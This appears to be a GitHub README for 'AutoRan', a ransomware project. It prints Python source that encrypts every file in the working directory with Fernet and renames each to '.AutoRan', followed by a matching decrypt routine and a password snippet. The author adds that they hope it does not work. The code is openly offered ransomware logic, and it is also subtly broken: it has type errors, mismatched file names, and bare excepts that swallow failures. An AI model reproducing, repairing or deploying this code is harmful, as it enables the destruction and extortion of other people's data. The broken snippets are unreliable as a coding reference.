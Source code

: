 # AutoRan
## Help
Dev Discord : https://discord.gg/nhNWu8Sjre

Gmail : blacktechasdf@gmail.com
### AutoRan history 1.0
#### Encrypt
###### Encrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass
```

#### Decrypt
##### Decrypt Source Code

```
( Encrypt Source Code )

def Decry():
  try:
    for LockData in Encrypt:
      with open(LockData, "w") as fp:
        Data = Encrypt[LockData]
        UnLocked = F.decrypt(Data).decode()
        fp.write(UnLocked)
  except:
    pass
```

#### Password Generate
##### Password Generate Source Code
```
Password = ""
for i in range(0, 8):
  Password = Password+"x"+random.randrange(10, 100)
```

#### Use cryptography.fernet
# I hope this program not work
#### cause i hate ransomware...
